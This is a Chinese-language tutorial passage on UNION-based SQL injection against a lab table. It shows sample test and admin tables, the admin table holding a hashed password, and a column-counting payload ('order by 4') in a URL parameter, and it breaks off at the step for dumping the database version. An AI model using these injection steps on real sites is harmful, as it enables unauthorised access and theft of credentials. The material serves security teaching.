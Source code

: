 # UNION 联合注入-有显示位时使用

## 0x00 概要

在页面有显示位的情况下使用

## 0x01 测试表数据

```plain
# 测试表数据: test;

mysql> select * from test;
+----+----------+------+---------+
| id | test     | map  | content |
+----+----------+------+---------+
|  1 | 1        | NULL | NULL    |
| 29 | t        | NULL | NULL    |
| 28 | -        | NULL | NULL    |
| 27 | a        | NULL | NULL    |
|  5 | 2        | NULL | NULL    |
| 26 | 9        | NULL | NULL    |
| 25 | 8        | NULL | NULL    |
| 24 | 7        | NULL | NULL    |
| 23 | 6        | NULL | NULL    |
| 22 | 5        | NULL | NULL    |
| 21 | 4        | NULL | NULL    |
| 14 | 3        | NULL | NULL    |
| 20 | 4        | NULL | NULL    |
| 19 | security | NULL | NULL    |
| 18 | 4        | NULL | NULL    |
+----+----------+------+---------+
15 rows in set (0.00 sec)
# 测试管理表: tdb_admin;

mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

## 0x02 查看列数

web语句: http://www.test.com/sql.php?id=1 order by 4

数据库语句: select * from test where id=1 order by 4

## 0x03 爆数据库版本
